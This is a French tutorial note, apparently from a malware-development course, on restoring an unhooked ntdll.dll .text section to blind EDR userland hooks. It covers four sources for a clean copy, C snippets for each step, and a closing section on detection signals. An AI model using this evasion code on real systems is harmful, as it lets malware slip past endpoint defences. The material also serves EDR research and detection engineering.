

# Unhooking de NTDLL

Le hooking userland est l'un des premiers capteurs d'un EDR : sa DLL s'injecte dans le processus et détourne les fonctions de `ntdll.dll` pour observer les appels. Les syscalls directs — voir [[Introduction aux syscalls]] et [[SysWhispers et Hell's Gate]] — contournent le problème en n'appelant plus ces fonctions. L'unhooking prend le chemin inverse : il **restaure** dans le processus une version saine de `ntdll.dll`, de sorte que les fonctions hookées redeviennent authentiques.

## Principe : remplacer la section .text

Remplacer une DLL entière imposerait de reconstruire manuellement l'IAT, de corriger les relocations et d'autres tâches fastidieuses. Une approche bien plus simple consiste à ne réécrire qu'une portion de l'image : la section `.text`, qui contient le code des fonctions exportées — précisément l'endroit où les hooks sont posés.

Trois informations suffisent :

- l'adresse de base de la section `.text`, obtenue soit via `IMAGE_OPTIONAL_HEADER.BaseOfCode`, soit en parcourant les `IMAGE_SECTION_HEADER` à la recherche du nom `.text` (voir [[Parsing des en-têtes PE]]) ;
- sa taille, via `SizeOfCode` ou `IMAGE_SECTION_HEADER.Misc.VirtualSize` ;
- une copie non hookée de la DLL.

La section est normalement marquée `RX`. Pour la réécrire, il faut appeler `VirtualProtect` et passer en `PAGE_EXECUTE_READWRITE` ou `PAGE_EXECUTE_WRITECOPY`, puis restaurer les protections d'origine. Le tout se résume à trois étapes : `VirtualProtect`, `memcpy`, `VirtualProtect`.



## Alignement : disque contre mémoire

Le même fichier n'a pas la même disposition selon qu'il est lu ou mappé :

| Contexte | Alignement | Offset de `.text` |
|---|---|---|
| DLL sur disque | 1 Ko (1024 octets) | `0x400` |
| DLL mappée en mémoire | 4 Ko (4096 octets) | `0x1000` |

Le disque privilégie des frontières de 1 Ko pour les performances d'entrée/sortie, la mémoire virtuelle des pages de 4 Ko. Cette distinction est cruciale : ajouter le mauvais offset produit une copie décalée et un résultat incohérent. Noter que mapper un fichier sans les drapeaux `SEC_IMAGE` / `SEC_IMAGE_NO_EXECUTE` ne provoque pas ce réalignement.

## Les briques communes

### Adresse de base du ntdll local

Plutôt que `GetModuleHandle`, on lit directement le PEB. La liste `InMemoryOrderModuleList` place l'image courante en premier et `ntdll.dll` en deuxième ; comme `Flink` pointe sur la fin de l'entrée, on soustrait `sizeof(LIST_ENTRY)`, soit `0x10` :

```c
PVOID FetchLocalNtdllBaseAddress() {
#ifdef _WIN64
    PPEB pPeb = (PPEB)__readgsqword(0x60);
#elif _WIN32
    PPEB pPeb = (PPEB)__readfsdword(0x30);
#endif
    // 2e entree de la liste = ntdll.dll ; -0x10 car Flink pointe en fin d'entree
    PLDR_DATA_TABLE_ENTRY pLdr =
        (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
    return pLdr->DllBase;
}
```

### Détection du nom de section sans strcmp

Le test du nom `.text` évite `strcmp` en relisant quatre octets comme un `ULONG` et en forçant la casse : la valeur `".tex"` lue en little-endian devient `"xet."`, comparée à la constante `'xet.'` après un OR avec `0x20202020`.

```c
// equivalent de : if (strcmp(pSectionHeader[i].Name, ".text") == 0)
if ((*(ULONG*)pSectionHeader[i].Name | 0x20202020) == 'xet.') {
    pLocalNtdllTxt  = (PVOID)((ULONG_PTR)pLocalNtdll + pSectionHeader[i].VirtualAddress);
    pRemoteNtdllTxt = (PVOID)((ULONG_PTR)pUnhookedNtdll + pSectionHeader[i].VirtualAddress);
    sNtdllTxtSize   = pSectionHeader[i].Misc.VirtualSize;
    break;
}
```

### Fonction de remplacement

`ReplaceNtdllTxtSection` reçoit en paramètre l'adresse de base de la copie saine (`pUnhookedNtdll`) et réalise l'écrasement. C'est le point de convergence de toutes les sources présentées ensuite ; seule change la manière d'obtenir la copie.

```c
BOOL ReplaceNtdllTxtSection(IN PVOID pUnhookedNtdll) {
    PVOID  pLocalNtdll = (PVOID)FetchLocalNtdllBaseAddress();
    // ... verification des en-tetes DOS et NT ...
    // ... localisation de .text dans les deux images ...

    DWORD dwOldProtection = NULL;

    if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, PAGE_EXECUTE_WRITECOPY, &dwOldProtection))
        return FALSE;

    memcpy(pLocalNtdllTxt, pRemoteNtdllTxt, sNtdllTxtSize);

    if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, dwOldProtection, &dwOldProtection))
        return FALSE;

    return TRUE;
}
```

Un contrôle de cohérence compare les quatre premiers octets des deux sections ; s'ils diffèrent, l'offset de la copie saine est faux.

### Le cas limite des 3072 octets

`ReadFile` renvoie généralement une section `.text` à l'offset 1024, mais ce n'est pas garanti. Le code traite les deux hypothèses à l'exécution : si les quatre premiers octets ne correspondent pas, il suppose un offset de 4096 et ajoute `3072` (puisque `1024` a déjà été compté), puis vérifie de nouveau.

```c
if (*(ULONG*)pLocalNtdllTxt != *(ULONG*)pRemoteNtdllTxt) {
    (ULONG_PTR)pRemoteNtdllTxt += 3072;   // 4096 - 1024
    if (*(ULONG*)pLocalNtdllTxt != *(ULONG*)pRemoteNtdllTxt)
        return FALSE;
}
```

## Source 1 : depuis le disque

Le fichier est disponible à `C:\Windows\System32\ntdll.dll`. Deux méthodes d'acquisition existent, et chacune fixe l'offset à utiliser.

### Lecture par ReadFile

`ReadNtdllFromDisk` reconstitue le chemin avec `GetWindowsDirectoryA`, ouvre le fichier (`CreateFileA`, `GENERIC_READ`, `FILE_SHARE_READ`, `OPEN_EXISTING`), alloue un tampon de la taille renvoyée par `GetFileSize` et lit avec `ReadFile`. L'offset de `.text` vaut alors 1024.

### Mappage par CreateFileMappingA

`MapNtdllFromDisk` crée une section avec `CreateFileMappingA(hFile, NULL, PAGE_READONLY | SEC_IMAGE_NO_EXECUTE, NULL, NULL, NULL)` puis obtient la vue via `MapViewOfFile(hSection, FILE_MAP_READ, NULL, NULL, NULL)`. L'offset devient celui de `IMAGE_SECTION_HEADER.VirtualAddress`, soit 4096.

Le choix de `SEC_IMAGE_NO_EXECUTE` n'est pas anodin : ce drapeau ne déclenche pas le callback `PsSetLoadImageNotifyRoutine`, donc le mappage de `ntdll.dll` n'alerte pas les EDR qui s'y raccrochent.

### Lecture ou mappage ?

Le mappage est plus fiable : l'offset de `.text` y est **toujours** égal à `IMAGE_SECTION_HEADER.VirtualAddress`. En lecture directe, l'offset peut valoir 1024 ou 4096, d'où le contrôle de cohérence décrit plus haut.

### Risques

C'est la variante la plus détectée. Son usage massif a conduit les éditeurs à développer de nombreuses signatures heuristiques visant spécifiquement la lecture de `ntdll.dll` sur le disque. Les sources suivantes sont considérées comme de meilleures alternatives.

## Source 2 : depuis le répertoire KnownDlls

Le répertoire `KnownDlls` contient les DLL système fréquemment utilisées, que le chargeur Windows mappe directement dans les processus naissants pour économiser temps et mémoire. Depuis l'abandon de Windows XP, il n'est plus un dossier de `System32` mais un objet interne ; la liste associée se consulte dans la clé de registre `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs` (visualisable avec WinObj).

### NtOpenSection

`OpenFileMapping` échoue systématiquement sur ce chemin avec `ERROR_BAD_PATHNAME`. L'alternative consiste à appeler directement la fonction native `NtOpenSection` — un bon exemple de recours aux syscalls pour obtenir un comportement inaccessible par les WinAPI.

```c
NTSTATUS NtOpenSection(
    OUT PHANDLE             SectionHandle,
    IN  ACCESS_MASK         DesiredAccess,
    IN  POBJECT_ATTRIBUTES  ObjectAttributes
);
```

`DesiredAccess` vaut `SECTION_MAP_READ` (lecture seule). `ObjectAttributes` est initialisé par la macro `InitializeObjectAttributes` avec un `UNICODE_STRING` pointant sur `\KnownDlls\ntdll.dll` :

```c
UniStr.Buffer        = (PWSTR)L"\\KnownDlls\\ntdll.dll";
UniStr.Length        = wcslen(UniStr.Buffer) * sizeof(WCHAR);
UniStr.MaximumLength = UniStr.Length + sizeof(WCHAR);

InitializeObjectAttributes(&ObjAtr, &UniStr, OBJ_CASE_INSENSITIVE, NULL, NULL);

STATUS = pNtOpenSection(&hSection, SECTION_MAP_READ, &ObjAtr);
pNtdllBuffer = MapViewOfFile(hSection, FILE_MAP_READ, NULL, NULL, NULL);
```

La vue obtenue est mappée : l'offset de `.text` vaut donc `IMAGE_SECTION_HEADER.VirtualAddress` (4096), et le contrôle de cohérence sur les quatre premiers octets doit réussir tel quel.

## Source 3 : depuis un processus suspendu

Un EDR ne peut poser ses hooks que dans un processus **en cours d'exécution**. Un processus créé en état suspendu contient donc une image `ntdll.dll` intacte. C'est l'observation centrale de cette méthode.

Lors du démarrage normal, le chargeur mappe l'image exécutable (`notepad.exe`), puis `ntdll.dll`, puis toutes les DLL dépendantes. En création suspendue (ou en mode débogage), seul `ntdll.dll` est mappé : la copie est propre.

### Adresse et taille

Les DLL sont mappées à la même adresse de base dans tous les processus : l'adresse de `ntdll.dll` dans le processus courant est donc connue d'avance pour le processus suspendu. La taille, en revanche, doit être calculée :

```c
SIZE_T GetNtdllSizeFromBaseAddress(IN PBYTE pNtdllModule) {
    PIMAGE_DOS_HEADER pImgDosHdr = (PIMAGE_DOS_HEADER)pNtdllModule;
    if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE) return NULL;

    PIMAGE_NT_HEADERS pImgNtHdrs = (PIMAGE_NT_HEADERS)(pNtdllModule + pImgDosHdr->e_lfanew);
    if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE) return NULL;

    return pImgNtHdrs->OptionalHeader.SizeOfImage;
}
```

### Lecture distante

`CreateProcessA` est appelé avec `DEBUG_PROCESS` (ou `CREATE_SUSPENDED`), puis `ReadProcessMemory` lit toute l'image. Le processus est ensuite détaché avec `DebugActiveProcessStop` — obligatoire avant `TerminateProcess`, sans quoi la terminaison échoue — puis supprimé. Avec `CREATE_SUSPENDED`, le remplacement se fait avec `ResumeThread`.

```c
CreateProcessA(NULL, cProcessPath, NULL, NULL, FALSE, DEBUG_PROCESS, NULL, NULL, &Si, &Pi);

sNtdllSize   = GetNtdllSizeFromBaseAddress((PBYTE)pNtdllModule);
pNtdllBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sNtdllSize);

ReadProcessMemory(Pi.hProcess, pNtdllModule, pNtdllBuffer, sNtdllSize, &sNumberOfBytesRead);

DebugActiveProcessStop(Pi.dwProcessId);
TerminateProcess(Pi.hProcess, 0);
```

La copie provenant d'un espace d'adressage mappé, l'offset de `.text` est 4096.

## Source 4 : depuis un serveur web (Winbindex)

Pourquoi ne pas embarquer une copie saine dans le binaire ? Parce qu'il faudrait en embarquer une par version de Windows, ce qui ferait exploser la taille. La variante réseau interroge donc le serveur au moment de l'exécution, après avoir identifié la version de `ntdll.dll` de la machine.

Winbindex répertorie presque toutes les versions des fichiers Windows. L'analyse de ses liens de téléchargement révèle leur structure :

```text
https://msdl.microsoft.com/download/symbols/ntdll.dll/494079D61ee000/ntdll.dll
                                               ^^^^^^^^  ^^^^^^
                                               TimeDateStamp  SizeOfImage
```

Le premier champ est `IMAGE_FILE_HEADER.TimeDateStamp`, le second `IMAGE_OPTIONAL_HEADER.SizeOfImage`. L'URL est reconstruite pour la machine courante :

```c
#define FIXED_URL L"https://msdl.microsoft.com/download/symbols/ntdll.dll/"

wsprintfW(szFullUrl, L"%s%0.8X%0.4X/ntdll.dll", FIXED_URL,
          pImgNtHdrs->FileHeader.TimeDateStamp,
          pImgNtHdrs->OptionalHeader.SizeOfImage);
```

Le téléchargement réutilise `GetPayloadFromUrl`, déjà vu dans le staging web (voir [[Staging du payload]]), construit sur WinINet : `InternetOpenW`, `InternetOpenUrlW` et une boucle d'`InternetReadFile` par blocs de 1024 octets placés dans un tampon réalloué au fur et à mesure.

L'exécutable écrit sur disque peut présenter un offset de `.text` de 4096 malgré la lecture : le contrôle de cohérence avec ajout de 3072 est donc nécessaire.

### Risque

L'approche est considérée risquée. Les API WinINet exigent le chargement dynamique de nombreuses DLL annexes (`wininet.dll`, `winhttp.dll`, `sechost.dll`, etc.) via `LoadLibrary` ou `LdrLoadDll`, autant de fonctions très probablement hookées. C'est une fuite directe sur la conception de l'implémentation.

## Comparaison des sources

| Source | Mécanisme | Offset `.text` | Points forts | Points faibles |
|---|---|---|---|---|
| Disque | `ReadFile` / `CreateFileMappingA` | 1024 (lecture) ou 4096 (mappage) | Simple, hors ligne | Très signature, offset incertain en lecture |
| KnownDlls | `NtOpenSection` + `MapViewOfFile` | 4096 | Image officielle déjà en mémoire | Nécessite une fonction native |
| Processus suspendu | `CreateProcessA` + `ReadProcessMemory` | 4096 | Aucun accès disque ou réseau | Création de processus suspecte |
| Serveur (Winbindex) | WinINet | 1024 ou 4096 | Toutes les versions disponibles | Charge des DLL annexes, très visible |

## Détection, limites et améliorations

- Écrire dans la section `.text` de `ntdll.dll` implique un `VirtualProtect` passant la mémoire en exécutable-inscriptible : un couple `VirtualProtect` + `memcpy` sur une image de module est un signal fort. Voir [[Mécanismes de détection]] et [[Introduction aux EDR]].
- La création d'un processus suspendu puis `ReadProcessMemory` sur sa région `ntdll.dll` dessine une séquence inhabituelle, surtout suivie d'un `DebugActiveProcessStop`.
- Le mappage depuis le disque déclenche le callback `PsSetLoadImageNotifyRoutine`, sauf avec `SEC_IMAGE_NO_EXECUTE`.
- L'unhooking neutralise le hooking userland mais **pas** ETW ni les callbacks noyau : il faut le combiner avec d'autres contournements (voir [[Contournement des antivirus]]).
- Toutes les implémentations présentées utilisent des WinAPI et restent donc observables. Une version plus furtive effectue l'unhooking par syscalls directs ou indirects, comme dans [[Réimplémentation des injections via syscalls]].

Pour vérifier le résultat, une fonction `PrintState` compare les premiers octets d'un stub de syscall à la signature attendue `mov r10, rcx; mov eax, <SSN>`, soit le `ULONG` `0xb8d18b4c` :

```c
VOID PrintState(char* cSyscallName, PVOID pSyscallAddress) {
    printf("[#] %s [ 0x%p ] ---> %s \n", cSyscallName, pSyscallAddress,
           (*(ULONG*)pSyscallAddress != 0xb8d18b4c) ? "[ HOOKED ]" : "[ UNHOOKED ]");
}
```

Après remplacement, `NtProtectVirtualMemory` réapparaît comme `[ UNHOOKED ]` alors même que la DLL de l'EDR reste injectée dans le processus.
